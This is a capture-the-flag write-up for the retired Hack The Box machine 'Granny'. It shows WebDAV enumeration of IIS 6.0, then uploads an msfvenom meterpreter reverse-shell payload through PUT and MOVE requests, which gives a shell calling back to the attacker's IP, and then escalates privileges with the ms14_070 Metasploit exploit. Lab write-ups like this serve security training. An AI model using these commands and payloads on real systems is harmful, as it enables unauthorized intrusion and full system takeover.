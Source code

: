# Granny

This is the write-up for the box Granny that got retired at the 21st October 2017.
My IP address was 10.10.14.21 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.15    granny.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/granny.nmap 10.10.10.15
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Sun, 19 Jan 2020 16:45:28 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page displays an _"Under Construction"_ error and nothing interesting in the HTML source code.

As the **WebDAV** scan of Nmap shows, it seems to be possible to use different HTTP methods.
Lets scan what we can do with the methods:
```markdown
davtest -url http://10.10.10.15

# Output
Sending test files
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.pl
PUT     cgi     FAIL
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.html
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.php
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.jhtml
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.cfm
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.txt
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.jsp
```

Setting up a proxy with **Burpsuite** and looking at the what this scan did:
```markdown
PUT /DavTestDir_xnG2iD5Fuf4lok/davtest_xnG2iD5Fuf4lok.html HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: close
Host: localhost:80
User-Agent: DAV.pm/v0.49
Content-Length: 26

HTML put via davtest<br />
```

So it is possible to upload some text files on the server with the _PUT_ method.
As those will not execute any code, we look at the other methods and see, that we can use the _MOVE_ or _COPY_ method to change the file name to something that ends with _.aspx_ and get command execution.
The response of the box _X-Powered-By: ASP.NET_ suggests that executing an ASPX file should work.

Lets create an ASPX meterpreter shell with **Msfvenom**:
```markdown
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.21 LPORT=9001 -f aspx
```

The will create the code that we need to put into an HTML file:
```markdown
PUT /shell.html HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: close
Host: localhost:80
User-Agent: DAV.pm/v0.49
Content-Length: 2860

(Msfvenom Payload)
```

With the _MOVE_ or _COPY_ method, we can change the file name of the HTML file to _shell.aspx_:
```markdown
MOVE /shell.html HTTP/1.1
Destination: /shell.aspx
TE: deflate,gzip;q=0.3
Connection: close
Host: localhost:80
User-Agent: DAV.pm/v0.49
Content-Length: 2860
```

Creating the listener in **Metasploit**:
```markdown
msfconsole

use exploit/multi/handler
set LHOST 10.10.14.21
set LPORT 9001
set payload windows/meterpreter/reverse_tcp
exploit -j
```

Now we can browse to _/shell.aspx_ and a **Meterpreter** session will start.

## Privilege Escalation

With the `getuid` command in Meterpreter we see that we are the user _NT AUTHORITY\NETWORK SERVICE_ and need to escalate the privileges.
Lets use the exploit suggester in Metasploit:
```markdown
use post/multi/recon/local_exploit_suggester
set session 1
run
```

It suggests several exploits from which I will use _exploit/windows/local/ms14_070_tcpip_ioctl_:
```markdown
use exploit/windows/local/ms14_070_tcpip_ioctl
set session 1
exploit
```

After running this exploit, a new Meterpreter session as _NT AUTHORITY\SYSTEM_ starts and the box is done!
